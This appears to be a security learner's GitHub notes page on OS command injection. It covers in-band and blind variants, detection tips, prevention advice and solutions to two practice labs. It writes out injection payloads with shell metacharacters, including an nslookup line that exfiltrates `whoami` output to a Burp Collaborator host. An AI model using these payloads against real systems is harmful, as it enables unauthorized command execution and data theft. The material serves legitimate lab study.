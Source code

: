
Command injection is a vulnerability where a attacker can run commands on a host operating system via a vulnerable application

## Types of command injection vulnerabilities -

#### 1. In-band command injection - 

  Here we receive the response of the command sent via http response.
  
How to detect ?

> Use **shell metacharacters** - `&` `;`  `Newline (0x0a or \n)` `&&`  `|`  `|| `  `'` `$` 
  

  
#### 2. Blind  command injection - 

  Here it does not return the output of the command within the HTTP response. 

How to detect ?

> - Trigger a **time-delay** using `ping` or `sleep` command 
> eg -
> 
>   `https://vulnerable-website/endpoint?parameter=x||ping -c 10+127.0.0.1||`  
>        `https://vulnerable-website/endpoint?parameter=x & sleep 10 &`

>
> - Output the **response of the command to web root** and access the file directly via web browser. 
> eg - `https://vulnerable-website/endpoint?parameter=||whoami>/var/www/images/output.txt||`

> - Open an **Out-of Band channel to a server you control** like Burp collaborator.
> eg - `https://vulnerable-website/endpointparameter=x||nslookup+burp.collaborator.address||`
> 
> TIP - Exfiltrate the output of your command 
> 
> ```https://vulnerable-website/endpointparameter=||nslookup+`whoami`.burp.collaborator.address||```

#### Some vulnearble functions - 

```

-   exec
-   command
-   execute
-   ping
-   query
-   jump
-   code
-   reg
-   do
-   func
-   arg
-   option
-   load
-   process
-   step
-   read
-   function
-   req
-   feature
-   exe
-   payload
-   run
-   print
```



## Prevent -
- Avoid using shell execution functions. If unavoidable, limit their use to very specific use cases.
- Perform proper input validation when taking user input into a shell execution command.
- Use a safe API when accepting user input into the application.
- Escape special characters in the case where a safe API is not available.

----------------------------------------

# LAB 1 - OS command injection, simple case  [APPRENTICE]

```
This lab contains an OS command injection `vulnerability in the product stock checker`.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.
```

### Solution -

Vulnerability is in check stock filter 

![image](https://user-images.githubusercontent.com/67383098/225234017-13d55e1d-074c-40e9-ab3e-afea6521d066.png)

On clicking the link, the request & response looks like

![image](https://user-images.githubusercontent.com/67383098/225266361-4cb3dc03-7fbf-48ea-8a39-d816ad99f0a7.png)


We need to check which parameter is vulnerable [`productID` or `storeID`]

> productID

Request -

![image](https://user-images.githubusercontent.com/67383098/225265218-d45cc7a6-d412-4874-b5e9-9095f6bf9980.png)


Response -

![image](https://user-images.githubusercontent.com/67383098/225235472-03edc2dd-d895-4e42-9720-46ab3a2445fc.png)

It's not showing the o/p of whoami, so this parameter is not vulnerable.



> storeID

Request -


![image](https://user-images.githubusercontent.com/67383098/225265788-cc413d8d-329e-4ff8-8f95-cd99dba9ea5c.png)

Response - 


![image](https://user-images.githubusercontent.com/67383098/225265936-9d361244-2009-45a8-9dd5-1a4e9af7a24b.png)

------------------------------------------------------------

# Lab 2 - Blind OS command injection with time delays

```
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.
```

### Solution -

The feedback form is as follows
![image](https://user-images.githubusercontent.com/67383098/225272191-aeed0d6c-ebdd-4165-b5fe-9c032128f014.png)

Captured request -> ![image](https://user-images.githubusercontent.com/67383098/225272577-7e45b33f-7dfd-4f79-ac41-3e1a1577477e.png)

By adding the  ` & sleep #` (URL-encode before sending) , we can see that the `email` parameter is vulnerable to command injection vulnerability, since there was time delay of 10 seconds.

REQUEST

![image](https://user-images.githubusercontent.com/67383098/225275759-bc1e050b-ecad-45ce-bc96-37cb1bce9f38.png)

RESPONSE 

![image](https://user-images.githubusercontent.com/67383098/225275993-e1937b09-6697-45e9-8672-f2960367e8df.png)

----------------------------------------------------------------



















